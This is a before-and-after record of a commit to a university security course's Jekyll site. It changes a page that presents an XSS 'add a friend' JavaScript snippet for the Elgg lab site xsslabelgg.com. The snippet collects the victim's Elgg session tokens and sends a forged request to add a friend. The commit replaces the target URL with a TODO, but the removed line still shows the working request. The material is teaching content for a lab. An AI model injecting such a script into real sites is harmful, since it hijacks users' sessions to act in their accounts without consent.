

Before and after one commit to ycpcs/cs335-spring2022, a Jekyll site: the page built from code/xss/add_friend.md, in a window 1280 px wide. Shown: the top 520 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
add a friend

```diff
--- a/code/xss/add_friend.md
+++ b/code/xss/add_friend.md
@@ -1,7 +1,7 @@
 ---
 layout: default
 course_number: CS335
-title: Code - Add a Friend
+title: Code Snippets - Add a Friend
 ---
 
 Example of add a friend script
@@ -13,12 +13,10 @@ Example of add a friend script
     var elgg_ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
     var elgg_token = "&__elgg_token=" + elgg.security.token.__elgg_token;
 
-    var url = "http://www.xsslabelgg.com/action/friends/add" + "?friend=47" + elgg_ts + elgg_token;
+    var url = ""; // TODO
 
     var request = new XMLHttpRequest();
     request.open("GET", url, true);
-    request.setRequestHeader("Host", "www.xsslabelgg.com");
-    request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
     request.send();
 }
 </script>
```
Also changed, not shown: code/index.md (+3 -0 lines).
